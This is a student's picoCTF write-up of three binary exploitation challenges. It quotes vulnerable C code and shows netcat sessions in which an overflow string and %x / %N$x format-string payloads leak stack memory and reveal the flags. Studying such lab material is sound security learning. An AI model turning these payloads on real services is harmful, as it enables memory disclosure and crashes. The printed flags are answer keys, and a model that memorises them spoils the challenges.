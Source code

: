 # buffer overflow  0

**Flag:** `picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}`

There was a problem in OASIS (the asteroid one) which followed the same principle so i had somewhat of an idea of what to do this time arround

I saw the C code and found the use of many buffers as well as the gets function


```
void vuln(char *input){
  char buf2[16];
  strcpy(buf2, input);
}

```
```

  fgets(flag,FLAGSIZE_MAX,f);
  signal(SIGSEGV, sigsegv_handler); // Set up signal handler

```
```
  printf("Input: ");
  fflush(stdout);
  char buf1[100];
  gets(buf1);
  vuln(buf1);
  printf("The program will exit now\n");
  return 0;
}
```

So the first thing i thought was to Input a large string and it worked

```
blue@BlueKnight:~/ctf/buffer overflow 0$ nc saturn.picoctf.net 56940
Input: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
picoCTF{ov3rfl0ws_ar3nt_that_bad_ef01832d}
```

What you learned through solving this challenge:

1. Basics of how stacks work and what a buffer overflow is
2. How to cause a buffer overflow

References

- https://www.youtube.com/watch?v=AD-iXWANggo

# format string  0

**Flag:** `picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_63191ce6}`

This challenge felt a bit weird and i need to do a bit more research on the topic
I got a program along with its source code
On running it, it asked me to enter options from among those provided which i tried all of until one worked, (i checked the hints on the chall and one of them literally also was to just try all the options)

on the second part, one of the options included format specifiers in C

```
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
```

I knew %s was the format specifier for string in C so i tried entering that one and i got the flag

After doing some research I think I have a better understanding of what happened
We passed a number of format specifiers into our input, but there wasn't any argument to back up the format specifier, so the function went up the stack and found something which fits.

Need to look up more into this

What you learned through solving this challenge:

1. How format specifiers can be exploited

References

- https://www.youtube.com/watch?v=2HxyGWD1htg

# flag leak

**Flag:** `picoCTF{L34k1ng_Fl4g_0ff_St4ck_11a2b52a}`

This challenge was also a bit annoying 

On analyzing the source code i noticed this part

```
void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Tell me a story and then I'll tell you one >> ");
   scanf("%127s", story);
   printf("Here's a story - \n");
   printf(story);
   printf("\n");
}
```

In the printf, there is no fomat specifier mentioned, so i could exploit this to get an output i wanted

I learnt of the %x format specifier which printed 8 bytes of hexadecimal 

So, i could get the printf to go up the stack and print out the flag for me using this

```
blue@BlueKnight:~/ctf/flag leak$ nc saturn.picoctf.net 52573
Tell me a story and then I'll tell you one >> %x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.%x.
Here's a story -
ff8619e0.ff861a00.8049346.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.78252e78.2e78252e.252e7825.252e78.6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.
```

The multiple repeating hexadecimal parts in the beginning are my input string stored in the printf buffer

Beyond that is where it checks the rest of the stack

![Screenshot 2024-11-06 121848](https://github.com/user-attachments/assets/2aa31776-76d2-4630-a7e8-5a288cb6586d)

I realised as i did this further, i wouldn't get the complete flag which i required as the %x's would just get printed out in hexadecimal, so i would have to access particular parts of the stack

On counting the hexadecimal parts, the flag starts appearing from after the 36th repletion of the input to printf, so the complete flag would be present beyond that point, so i had to access the particular parts beyond 36

```
blue@BlueKnight:~/ctf/flag leak$ nc saturn.picoctf.net 59236
Tell me a story and then I'll tell you one >> %36$x.%37$x.%38$x.%39$x.%40$x.%41$x.%42$x.%43$x.%44$x.%45$x.%46$x.%47$x.%48$x.
Here's a story -
6f636970.7b465443.6b34334c.5f676e31.67346c46.6666305f.3474535f.315f6b63.62326131.7d613235.fbad2000.b4a98700.0.
```

![Screenshot 2024-11-06 124053](https://github.com/user-attachments/assets/7dc7c985-a586-449a-bc03-d0edf4f834d3)

on reversing each group of 4 characters the flag was obtained

I still have to learn more about stacks but as i understand it the lower the value on stack the further "up" it is, so each group of bytes was printed in reverse.

What you learned through solving this challenge:

1. How the %x format specifier can be used to print out parts of the stack

References

- https://www.youtube.com/watch?v=0WvrSfcdq1I






